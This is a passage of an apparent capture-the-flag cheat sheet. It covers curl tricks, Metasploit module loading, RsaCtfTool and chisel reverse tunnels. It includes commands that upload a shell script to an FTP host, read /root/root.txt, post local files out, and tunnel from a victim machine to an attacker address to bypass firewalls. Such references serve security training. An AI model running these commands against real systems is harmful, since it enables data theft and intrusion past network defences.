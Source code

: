	curl -T shell.sh -P 'ftp://backupmgr:REMOVED@172.20.0.1/'

- Get local file with curl

	curl "file:///root/root.txt"

- Upload file via post method

	curl -F ‘data=@path/to/local/file’ UPLOAD_ADDRESS

- Get time delay for the server to respond

	curl http://blabla.com -w "%{time_total}"

# METASPLOIT
https://www.offensive-security.com/metasploit-unleashed/modules-and-locations/

## Loading additional modules

	root@kali:~# msfconsole -m ~/secret-modules/

	msf > loadpath
	Usage: loadpath </path/to/modules>

	Loads modules from the given directory which should contain subdirectories for
	module types, e.g. /path/to/modules/exploits

	msf > loadpath /usr/share/metasploit-framework/modules/
	Loaded 399 modules:
	    399 payloads

# Decrypt a file who was encrypted with an rsa key
https://medium.com/@Rehman.Beg/hackthebox-crypto-weak-rsa-challenge-62db8153b66f

We got this tool [*https://github.com/Ganapati/RsaCtfTool*](https://github.com/Ganapati/RsaCtfTool) to complete this challenge

	python RsaCtfTool.py — publickey key.pub — uncipherfile flag.enc

# Chisel
https://github.com/jpillora/chisel/releases/tag/v1.6.0 (to download a release instead of the repo)

To create a reverse tcp tunnel and exploit a port. (can bypass firewall)

- On kali start chisel as a server on a port of your choice.

		sudo chisel_1.6.0_linux_amd64 server --port 9002 --reverse

- On the remote machine, start chisel on the same port and specify the local port to exploit with the reverse tunnel.

		.\chisel.exe client 10.10.14.16:9002 R:910:127.0.0.1:910
		.\chisel.exe client 10.10.14.16:9999 R:910:127.0.0.1:910

# XXD Command
## Convert Hex dump to text
